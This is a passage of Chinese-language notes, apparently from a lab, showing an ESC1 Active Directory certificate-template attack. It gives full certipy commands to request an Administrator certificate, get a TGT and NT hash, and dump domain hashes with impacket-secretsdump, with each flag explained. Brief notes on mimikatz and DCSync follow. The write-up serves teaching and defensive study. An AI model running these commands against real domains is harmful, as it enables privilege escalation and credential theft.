 #### ESC1 vuln 利用

以下是請求 admin 證書的指令 :
:::info
certipy req -dc-ip 192.168.0.144 -u Guts@ACU.local -p 'P@ssw0rd!' -ca ACU-ANIKATE-DC-CA -target ANIKATE-DC.ACU.local -template ESC1 -upn Administrator@ACU.local -dns Anikate-DC.ACU.local
:::
```
- certipy req : req 用來發送證書請求
- -dc-ip 192.168.0.144 : 指定 DC 的 IP 地址
- -u Guts@ACU.local : 先前獲得的有效憑證帳號，此帳戶將用來進行身份驗證，以便發送證書請求
- -p 'P@ssw0rd!' : Guts@ACU.local 的密碼
- -ca ACU-ANIKATE-DC-CA : 指定 CA，ACU-ANIKATE-DC-CA 是證書授權機構的名稱
- -target ANIKATE-DC.ACU.local : ANIKATE-DC.ACU.local 是目標主機的名稱，證書會針對這個主機來發放
- -template ESC1 : 使用的證書範本
- -upn Administrator@ACU.local : 說明這張證書代表 ACU.local 中的 Administrator 
- -dns Anikate-DC.ACU.local : 證書請求中將要註冊的 DNS 名稱
```
:::success
...
...
...
Saved certificate and private key to 'administrator_anikate-dc.pfx'
:::

使用剛才拿到的憑證對 DC 進行身份驗證，我就可以拿到 TGT，也能拿到 NT hash
:::info
certipy auth -pfx administrator_anikate-dc.pfx -dc-ip 192.168.0.144
:::
:::success
...
Got TGT
Saved Credential cache to administrator.ccache
...
Got hash for 'administrator@acu.local':xxxx...
:::

最後就可以用這個身分做到許多事情，包含竊取更多 hash
:::info
impacket-secretsdump -hashes 'xxx....:xxx...' ACU.local/Administrator@192.168.0.144.'
:::

#### 後續

當我拿下一個 domain 之後，我還可以因為 domain 之間的信任關係將整個 forest 拿下來。
![image](https://hackmd.io/_uploads/ByUy3JNL1e.png)


### mimikatz
[mimikatz](https://github.com/gentilkiwi/mimikatz) 可以從記憶體中提取明文密碼、雜湊值、PIN 碼和 kerberos 票證，也可以做到 pass-the-hash, pass-the-ticket 及 build Golden tickets 攻擊。

### DCSync 攻擊
為了保持 Domain 內多台 DC 之間的帳戶資訊同步，AD 使用了 DCSync 的同步機制。這個同步過程允許一個 DC 向其他 DC 請求特定用戶的帳戶資料（如密碼哈希、Kerberos 票證等）來進行複製。
所以攻擊者就透過模擬 DC 的行為，通過使用適當的權限發送同步請求來獲取敏感資料，也就能夠透過這個方式來提權。
